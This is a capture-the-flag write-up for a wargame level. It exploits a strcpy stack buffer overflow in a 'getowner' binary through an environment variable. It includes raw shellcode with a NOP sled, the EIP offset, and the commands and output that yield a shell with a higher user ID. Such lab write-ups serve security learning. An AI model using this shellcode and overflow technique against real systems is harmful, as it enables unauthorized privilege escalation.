 # Level 2

## Details
Vulnerability: Buffer overflow

Memory Security: None

Description
This challenge was a basic buffer overflow. The attack vector for this challenge, is through an environment variable called "filename". The getowner binary reads this information and performs a strcpy, allowing me to smash the stack and gain control of EIP. The payload, which includes a nopsled and shellcode, was stored in an additional environment variable and the address of this environment variables was discovered using the getenvaddr tool.


The first thing I did was smash the stack and enumerate how many bytes it took to overwrite EIP. I used peda's pattern and pattern_search tools in GDB to do this. However, I could have easily done it with Metasploit's pattern_create.rb or similar methods.

Bytes to overwrite EIP: 151(buffer) + 4(ret) = 155

At this point, I created a payload, which consists of a nopsled and my shellcode, and put it in an environment variable called SHELL. I use the getenvaddr tool to find out the memory address, which points to the beginning of my payload.

I then use this address when overriting EIP to execute my shellcode.

## Exploit
Setting up the payload:
```bash
level2@blackbox:~$ export SHELL=`python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

Getting the SHELL environment variable location:
```bash
level2@blackbox:/tmp/hpl2$ ./getenvaddr SHELL ~/getowner
SHELL will be at 0xbfffdb0c
```

Setting up the buffer overflow and exploitation: 
```bash
level2@blackbox:/tmp/hpl2$ export filename=`python -c 'import struct; print "A" * 151 + struct.pack("<L", 0xbfffdb0c)'`

level2@blackbox:/tmp/hpl2$ ~/getowner 
The owner of this file is: 0
bash-3.1$ id
uid=1003(level2) gid=1005(gamers) euid=1004(level3) groups=1003(level2),1005(gamers)
```


